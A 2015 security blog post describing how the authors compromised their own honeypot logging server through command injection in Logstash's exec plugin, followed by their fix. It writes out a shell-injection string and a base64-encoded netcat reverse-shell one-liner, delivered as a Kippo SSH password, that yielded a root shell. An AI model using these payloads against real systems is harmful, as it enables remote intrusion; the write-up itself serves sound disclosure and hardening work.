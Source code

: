 ```yaml
---
id: 347
title: Compromising a honeypot network through the Kippo password when logstash exec is used
date: 2015-08-22T11:59:08+01:00
author: wesley
layout: post
permalink: /2015/08/compromising-a-honeypot-network-through-the-kippo-password-when-logstash-exec-is-used/
---
```

This is a shared post by [@rikvduijn](http://www.twitter.com/rikvduijn) and [@wez3forsec](http://www.twitter.com/wez3forsec).

We have been playing with Honeypots lately (shoutout to Theo and Sebastian for adding their honeypots to the network), collecting and visualizing the data from the honeypots is done via ELK. The environment contains a central server to centralize all the collected data from the honeypots that are connected to it. The environment is visualized in the following diagram:

[<img class="alignnone size-full wp-image-348" src="/wp-content/uploads/2015/08/tmo.png" alt="tmo" width="301" height="395" />](/wp-content/uploads/2015/08/tmo.png)

In order to collect interesting data on Dutch IP&#8217;s we run every event through a filter adding [Geo location](https://www.elastic.co/guide/en/logstash/current/plugins-filters-geoip.html) based on IP. After that we run all events that pertain to Dutch IP&#8217;s through a Python script using the logstash function [exec](https://www.elastic.co/guide/en/logstash/current/plugins-inputs-exec.html).

<!--more-->

Wesley had a bad feeling about passing input of the honeypots from Logstash to Python, there was no sanitation. The following line is an example of how the input data is passed to the exec:

{% highlight c %}function:
exec {
  command => "/usr/bin/python /opt/logstash/scripts/main.py '%{clientIP}' '%{message}' >> /opt/logstash/scripts/script.log"<br />
}
{% endhighlight %}

Rik had the feeling that all &#8220;evil&#8221; input from the honeypots would be nicely encapsulated in JSON. What Rik did not think trough is that characters in JSON have a different locution than on the commandline. In order to figure out how the input was used we chose to test it. First just from the commandline, calling python with the raw event data from logstash.

{% highlight python %}
python main.py '127.0.0.1' '{"message":"{\"peerIP\": \"xx.245.xx.204\", \"commands\": [], \"loggedin\": null, \"version\": \"SSH-2.0-libssh2_1.4.1\", \"ttylog\": null, \"urls\": [], \"hostIP\": \"127.0.0.1\", \"peerPort\": 39277, \"session\": \"e8dba2e567e34f84b983e8f65810fd54\", \"startTime\": \"2015-08-05T23:27:07.407834\", \"hostPort\": 22, \"credentials\": [[\"nickname\", \"nickname\"], [\"name\", \"name\"]], \"endTime\": \"2015-08-05T23:27:10.215302\", \"unknownCommands\": []}","@version":"1","@timestamp":"2015-08-05T21:27:09.671Z","host":"localhost","chan":"kippo.sessions","name":"cc82a86a-3491-11e5-8589-000c29e0a40d","peerIP":"xx.245.xx.204","commands":[],"loggedin":null,"version":"SSH-2.0-libssh2_1.4.1","ttylog":null,"urls":[],"hostIP":"127.0.0.1","peerPort":39277,"session":"e8dba2e567e34f84b983e8f65810fd54","startTime":"2015-08-05T23:27:07.407834","hostPort":22,"credentials":[["nickname","nickname"],["name","name"]],"endTime":"2015-08-05T23:27:10.215302","unknownCommands":[],"geoip":{"ip":"xx.245.xxx.204","country_code2":"US","country_code3":"USA","country_name":"United States","continent_code":"NA","region_name":"PA","city_name":"Glenshaw","postal_code":"15116","latitude":40.54700000000006,"longitude":-79.988,"dma_code":508,"area_code":412,"timezone":"America/New_York","real_region_name":"Pennsylvania","location":[-79.988,40.54700000000006],"coordinates":[-79.988,40.54700000000006]},"validatedIP":"xx.245.xx.204","valid_ip":"true"}'
{% endhighlight %}
Adding a text to commands should allow us to test if it is vulnerable. We chose to add &#8216;; touch /tmp/testing# as expected this worked. Now we need to do this via a honeypot. We chose Kippo because this allowed us the most input. Filling in the command seemed harder than expected, kippo did not like the input and did not log it to our central server. We hoped kippo would log our input under &#8220;unknownCommands&#8221; but this failed.

After a while we thought what does kippo log every time no matter what: username and password. Supplying the password &#8216;; touch /tmp/testing# we expected a file in tmp. Finding temp with no new file was dissapointing and it was lucky we looked under / finding a file &#8220;tmp, testing&#8221; created by the root user! We now knew that command injection via a honeypot into our ELK host was possible and with root privileges to boot. However Logstash converted our slashes to comma&#8217;s and we do need comma&#8217;s for something like &#8220;nc 192.168.1.1 1234 -e /bin/bash&#8221;. We decided to use base64.

We want to run the command ‘nc.traditional <IP> 4444 -e /bin/bash’, so we encoded this command into base64:

<pre>
echo -n 'nc.traditional 10.10.10.10 4444 -e /bin/bash' | base64
</pre>

This results in the following value:

<pre>
bmMudHJhZGl0aW9uYWwgMTAuMTAuMTAuMTAgNDQ0NCAtZSAvYmluL2Jhc2g=
</pre>

We created a oneliner which takes this value, decodes it and runs its output. The command is the following:

<pre>
'; VAR=bmMudHJhZGl0aW9uYWwgMTAuMTAuMTAuMTAgNDQ0NCAtZSAvYmluL2Jhc2g=; VAR2=$(echo $VAR | base64 -d); $($VAR2);#
</pre>

Let&#8217;s test this, we set up our listener: nc -lvvp 4444 and then ssh into our Kippo honeypot with the user: &#8220;root&#8221; and password:

<pre>
'; VAR=bmMudHJhZGl0aW9uYWwgMTAuMTAuMTAuMTAgNDQ0NCAtZSAvYmluL2Jhc2g=; VAR2=$(echo $VAR | base64 -d); $($VAR2);#
</pre>

Closing the logon session forced kippo to log the data to our ELK server, Logstash passes the input to the commandline injecting our command. We received a reverse root shell.

[<img class="alignnone size-full wp-image-353" src="https://forsec.nl/wp-content/uploads/2015/08/tmpa.png" alt="tmpa" width="816" height="104" />](https://forsec.nl/wp-content/uploads/2015/08/tmpa.png)

[<img class="alignnone size-full wp-image-349" src="https://forsec.nl/wp-content/uploads/2015/08/bqBXfp7.gif" alt="bqBXfp7" width="320" height="240" />](https://forsec.nl/wp-content/uploads/2015/08/bqBXfp7.gif)

The following diagram shows the path the attacker took in order to compromise the centralized honeypot server:

[<img class="alignnone size-full wp-image-350" src="/wp-content/uploads/2015/08/tmp.png" alt="tmp" width="336" height="579" />](/wp-content/uploads/2015/08/tmp.png)

Thinking back on it, it was obvious that passing uncontrolled user input to the commandline was a bad idea. The fact that logstash ran with root privileges was a shock. The way we comprised the ELK while using the exec function, is a quite advanced attack which doesn’t seem to be impossible.  
We fixed our vulnerability by using another way to pass the input to the Python script. We firstly validate our IP-address using the following grok filter:

{% highlight c %}
filter {
grok {
match => { "attackerIP" => "%{IP:validatedIP}" } add_field => { "valid_ip" => "true" }
match => { "peerIP" => "%{IP:validatedIP}" } add_field => { "valid_ip" => "true" }
match => { "remote_host" => "%{IP:validatedIP}" } add_field => { "valid_ip" => "true" }
  }
}
{% endhighlight %}

This prevents the IP to be manipulated with another value.  
The message input, which is the most likely to be manupilated, is written to a file by logstash, the filename is passed to the commandline as an static value. This prevents an attacker to manipulate the command in the exec function using the message input.